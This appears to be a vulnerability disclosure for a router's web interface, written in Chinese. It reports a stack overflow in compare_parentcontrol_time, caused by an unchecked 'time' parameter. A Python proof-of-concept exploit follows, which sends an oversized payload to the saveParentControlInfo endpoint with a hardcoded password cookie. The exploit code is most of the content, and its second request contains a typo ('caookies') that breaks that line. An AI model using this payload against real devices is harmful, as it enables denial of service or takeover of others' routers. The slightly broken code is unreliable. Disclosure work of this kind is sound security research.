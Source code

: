 在函数compare_parentcontrol_time中，程序从参数“time”中获取的内容传递给程序创建的变量s，通过scanf传递变量的值。 没有大小检查，因此存在堆栈溢出漏洞。攻击者可以使用精心设计的溢出数据轻松执行任意代码或造成拒绝服务攻击。

<img width="415" height="340" alt="image" src="https://github.com/user-attachments/assets/735b5a28-39eb-457f-a592-c93279d0a65c" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/saveParentControlInfo"

cookie = {"Cookie":"password=12345"}
data = {"time": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, caookies=cookie, data=data)
print(response.text)
```
